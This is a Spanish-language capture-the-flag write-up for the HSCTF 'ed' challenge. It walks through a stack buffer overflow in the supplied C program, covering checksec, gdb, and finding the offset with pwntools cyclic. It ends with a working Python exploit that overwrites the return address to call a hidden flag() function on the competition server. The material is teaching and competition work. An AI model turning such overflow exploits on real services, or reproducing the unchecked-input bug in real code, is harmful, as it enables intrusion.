 # Enunciado
![Imagen01](01.png)

# Resolución

Nos proporcionan el siguiente código (chall.c) y su binario correspondiente (ed):
~~~
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int flag() {
	puts(getenv("FLAG"));
}

int main(int argc, char** argv) {
	char input[24]; 
	char filename[24] = "\0";
	char buffer[64];
	FILE* f = NULL;
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	if (argc > 1) {
		strncpy(filename, argv[1], 23);
	}
	while (1) {
		fgets(input, 64, stdin);
		input[strcspn(input, "\n")] = 0;
		if (input[0] == 'Q') {
			return 0;
		} else if (input[0] == 'f') {
			if (strlen(input) >= 3) {
				strcpy(filename, input + 2);
			}

			if (filename[0] == '\0') {
				puts("?");
			} else {
				puts(filename);
			}
		} else if (input[0] == 'l') {
			if (filename[0] == '\0') {
				puts("?");
			} else {
				if (strchr(filename, '/') != NULL) {
					puts("?");
					continue;
				}

				f = fopen(filename, "r");
				if (f == NULL) {
					puts("?");
					continue;
				}

				while (fgets(buffer, 64, f)) {
					printf("%s", buffer);
				}
				fclose(f);
			}
		} else {
			puts("?");
		}
	}
}
~~~
En el mismo tenemos la fúnción int flag() que imprime la flag pero que nunca es llamada en el código, por lo que podemos tratar de obtener la dirección en la que se encuentra dicha función y modificar de alguna forma el flujo de programa para que se ejecute.

Primero, ejecutamos gdb-gef con el binario 'ed':

![](05.png)

y buscamos la dirección de memoria de la función *flag()*. Lo hacemos con el comando ´print &flag´

![](07.png)

Obtenemos la dirección **0x4011d2**

Ahora debemos de comprobar si el código ejecutable ha sido compilado sin alguna de las protecciones que impiden el desbordamiento de buffer. Lo hacemos con checksec:

![](02.png)

Vemos que no tiene la protección *Stack Canary* ni *PIE* por lo que en principio parece vulnerable a desbordamientos de pila.

> Un **stack canary** es un valor de seguridad colocado en la pila justo antes de la dirección de retorno en una función. Este valor se elige de forma aleatoria al inicio de la ejecución del programa y se verifica al finalizar la función antes de que se produzca el retorno. Si el valor del canary se ha modificado, se asume que ha ocurrido un desbordamiento de búfer y el programa puede tomar medidas para prevenir un posible ataque como terminar abruptamente la ejecución, generar una excepción o informar del intento de ataque.

> Las **protecciones PIE** (Position Independent Executable) son técnicas de seguridad que hacen que el código y los datos de un programa se carguen en posiciones de memoria aleatorias cada vez que se ejecuta. Esto dificulta a los atacantes explotar vulnerabilidades de memoria, ya que no conocen de antemano la ubicación exacta de las estructuras de datos y funciones en el programa. 

Para conseguir el desbordamiento debemos de encontrar alguna forma de introducción de datos que permita que el programa se 'desborde'. Un desbordamiento generalmente se produce cuando un programa escribe más datos en un búfer de los que puede contener. 

En el código suministrado tenemos dos líneas que posibilitan un buffer overflow debido a la discrepancia en los tamaños de los búferes y la forma en que se maneja la entrada del usuario.

1. `char input[24];`: Aquí, se declara un array de caracteres `input` con un tamaño fijo de 24 bytes.

2. `fgets(input, 64, stdin);`: En esta línea, se utiliza la función `fgets` para leer hasta 64 caracteres de la entrada estándar (`stdin`) y almacenarlos en el búfer `input`. Sin embargo, como se definió que `input` solo tiene espacio para 24 bytes, si el usuario ingresa más de 23 caracteres (más el carácter nulo de terminación), esto resultará en un buffer overflow. Esto es porque `fgets` tratará de escribir más datos en `input` de los que puede contener de manera segura.


Ejecutándolo en local vemos que efectivamente al introducir una cadena larga y luego pulsar 'Q', obtenemos el desbordamiento de buffer que estamos buscando:

![](03.png)

Vamos a utilizar el comando 'cyclic' de 'pwntools' para generar una cadena con un patrón conocido, luego la editaremos para añadir una 'Q' en la siguiente línea, es decir, replicamos en un fichero de texto la entrada con la que hemos conseguido el buffer overflow pero con un patrón de texto conocido que después podemos ubicar en memoria al ejecutarlo con una herramienta como 'gdb'

![](04.png)

Para ejecutar el programa desde dentro de gdb con el fichero de texto generado, debemos de utilizar el comando ´r< cadena.txt´, obteniendo la siguiente salida:

![](09.png)

En este caso nos interesa poder sobreescribir el stack pointer (registro **rsp**) que apunta a la cima de pila para ubicar en él la dirección de la función flag().

Para ello podemos usar la herramienta cyclic de nuevo para determinar exactamente en qué parte de la cadena de caracteres se encuentra "kaaalaaamaaanaaaoaaapaa" que es la parte que sobrescribió el stack pointer. Sabiendo la posición de dicha cadena en la cadena original tendremos el offset en el que necesitamos escribir la dirección 0x4011d2, que es la de la función flag().

![](08.png)

Obtenemos un offset de 40.

Con todos estos datos, generamos un pequeño programa en python utilizando la librería *pwntools*

~~~
from pwn import *

conexion = remote("ed.hsctf.com", 1337)
offset = 40
direccion_funcion_flag = p64(0x4011d2)
conexion.sendline(b'a'*offset + direccion_funcion_flag)
conexion.recv()
conexion.sendline(b'Q')
print(conexion.recv())
~~~
Donde:  

 - `conexion = remote("ed.hsctf.com", 1337)`: Establece una conexión al servidor remoto.
 - `direccion_funcion_flag = p64(0x4011d2)`: Convierte la dirección hexadecimal 0x4011d2 en una cadena de 8 bytes (64 bits) utilizando la función `p64`. 
 - `conexion.sendline(b'a'*offset + direccion_funcion_flag)`: Envía una cadena al servidor que consta de 40 caracteres 'a' seguidos de la dirección de la función que queremos ejecutar, sobrescribiendo la dirección de retorno en la pila con la dirección de la función que queremos ejecutar.
 - `conexion.recv()`: Se recibe y descarta cualquier respuesta del servidor. Necesario para que el programa remoto procese completamente la entrada anterior.
 - `conexion.sendline(b'Q')`: Envía el carácter 'Q' al servidor. Esto provoca que el programa remoto retorne, provocando que salte a la dirección de la función que hemos inyectado en la pila.
 - `print(conexion.recv())`: Recibe y luego imprime la respuesta final del servidor.

Lo ejecutamos y conseguimos la bandera:

![](10.png)


 
**Autor:** [Andr3sdelRio](https://twitter.com/Andr3sdelRio) 

- [URL original del reto](https://ctf.hsctf.com/challs). *Disclaimer:Probablemente offline después de finalizar la competición* 
 
